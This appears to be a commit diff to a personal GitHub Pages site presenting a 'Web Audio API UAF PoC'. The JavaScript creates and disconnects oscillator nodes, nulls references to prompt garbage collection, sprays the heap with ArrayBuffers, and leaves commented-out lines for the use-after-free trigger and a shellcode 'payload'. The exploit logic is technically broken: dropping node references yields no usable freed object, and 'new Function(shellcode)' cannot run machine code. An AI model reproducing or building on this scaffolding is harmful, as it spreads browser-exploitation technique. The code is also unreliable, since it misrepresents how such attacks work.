

Before and after one commit to recyy2431/recyy2431.github.io, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Run PoC". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,12 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>Web Audio PoC</title>
+    <title>Web Audio UAF PoC</title>
+    <style>
+        body { font-family: Arial, sans-serif; margin: 20px; }
+        #log { white-space: pre-wrap; border: 1px solid #ccc; padding: 10px; }
+        button { padding: 10px 20px; font-size: 16px; }
+    </style>
 </head>
 <body>
     <h1>Web Audio API UAF PoC (Educational Only)</h1>
@@ -11,39 +16,51 @@
     <div id="log"></div>
 
     <script>
+        let audioCtx = null;
+
         function log(msg) {
-            document.getElementById('log').innerText += msg + '\n';
+            const logDiv = document.getElementById('log');
+            logDiv.innerText += `[${new Date().toLocaleTimeString()}] ${msg}\n`;
+            logDiv.scrollTop = logDiv.scrollHeight;
         }
 
         async function triggerUAF() {
             try {
-                log('Starting Web Audio API PoC...');
+                log('Initializing Web Audio API PoC...');
 
-                // Initialize AudioContext
-                const ctx = new (window.AudioContext || window.webkitAudioContext)();
+                // Step 1: Create or resume AudioContext
+                if (!audioCtx) {
+                    audioCtx = new (window.AudioContext || window.webkitAudioContext)();
+                    log('AudioContext created.');
+                }
+                if (audioCtx.state === 'suspended') {
+                    await audioCtx.resume();
+                    log('AudioContext resumed after user gesture.');
+                }
+
+                // Step 2: Create oscillator nodes
                 let nodes = [];
-
-                // Step 1: Create many oscillator nodes to stress memory
                 log('Creating 1000 oscillator nodes...');
                 for (let i = 0; i < 1000; i++) {
-                    let node = ctx.createOscillator();
-                    node.connect(ctx.destination);
+                    let node = audioCtx.createOscillator();
+                    node.connect(audioCtx.destination);
                     nodes.push(node);
                 }
 
-                // Step 2: Select and disconnect a target node
+                // Step 3: Disconnect target node
                 let target = nodes[500];
                 log('Disconnecting target node...');
                 target.disconnect();
 
-                // Step 3: Clear array to encourage garbage collection
+                // Step 4: Clear array to encourage GC
                 log('Clearing nodes array...');
                 nodes = null;
 
-                // Step 4: Force GC (browser-dependent, may not work in production)
+                // Step 5: Delay for GC (browser-dependent)
+                log('Waiting for garbage collection...');
                 await new Promise(resolve => setTimeout(resolve, 100));
 
-                // Step 5: Heap spray to control freed memory
+                // Step 6: Heap spray
                 log('Spraying heap with ArrayBuffers...');
                 let spray = [];
                 for (let i = 0; i < 10000; i++) {
@@ -51,10 +68,6 @@
                     buf.fill(0x41414141); // 'AAAA' for debugging
                     spray.push(buf);
                 }
-
-                // Step 6: Access freed node to trigger UAF (disabled for safety)
-                log('Attempting to access freed node (disabled)...');
-                // target.connect(ctx.destination); // Uncommenting may crash vulnerable browsers
 
                 // Step 7: Browser-specific tweaks
                 if (navigator.userAgent.includes('Firefox')) {
@@ -65,20 +78,23 @@
                     await new Promise(resolve => setTimeout(resolve, 200));
                 }
 
-                // Step 8: Placeholder for payload (disabled)
+                // Step 8: Access freed node (disabled for safety)
+                log('Attempting to access freed node (disabled)...');
+                // target.connect(audioCtx.destination); // Would trigger UAF if enabled
+
+                // Step 9: Placeholder for payload (disabled)
                 log('Payload delivery skipped for safety.');
-                // let shellcode = new Uint8Array([0x90, 0x90, ...]); // Example shellcode
+                // let shellcode = new Uint8Array([0x90, 0x90, ...]); // Example
                 // let exec = new Function(shellcode); // Would execute if enabled
-                // exec();
 
-                log('PoC completed. Check browser console for details.');
+                log('PoC completed. Check console for details.');
             } catch (e) {
                 log('Error: ' + e.message);
             }
         }
 
         function runExploit() {
-            log('Initializing exploit...');
+            log('Exploit triggered by user gesture...');
             triggerUAF();
         }
     </script>
```
